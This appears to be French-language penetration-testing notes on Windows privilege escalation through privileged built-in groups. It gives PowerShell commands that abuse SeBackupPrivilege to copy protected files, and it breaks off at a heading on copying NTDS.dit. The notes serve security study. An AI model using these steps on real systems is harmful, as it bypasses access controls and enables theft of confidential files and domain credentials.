 
 - [ ] [[#Backup Operators]]
 - [ ] [[#Event Log Readers]]
 - [ ] [[#DnsAdmin]]
 - [ ] [[#Hyper-V Administrator]]
 - [ ] [[#Print Operators]]
 - [ ] [[#Server Operators]]



```powershell
whoami /groups
```


---
# Backup Operators

Les membres de ce groupe ont les privilèges SeBackup et SeRestore

> [!TIP]
> Permet de copier n'importe quel dossier / fichier pour le lire

## PoC

https://github.com/giuliano108/SeBackupPrivilege

Importer les libs

```powershell
 Import-Module .\SeBackupPrivilegeUtils.dll
```

```powershell
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

Activer le privilège SeBackup

```powershell
Set-SeBackupPrivilege
```

Vérifier que le privilège est actif

```powershell
Get-SeBackupPrivilege
```

```powershell-session
whoami /priv
```

Copier le fichier cible

```powershell-session
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
```

### Copie de NTDS.dit
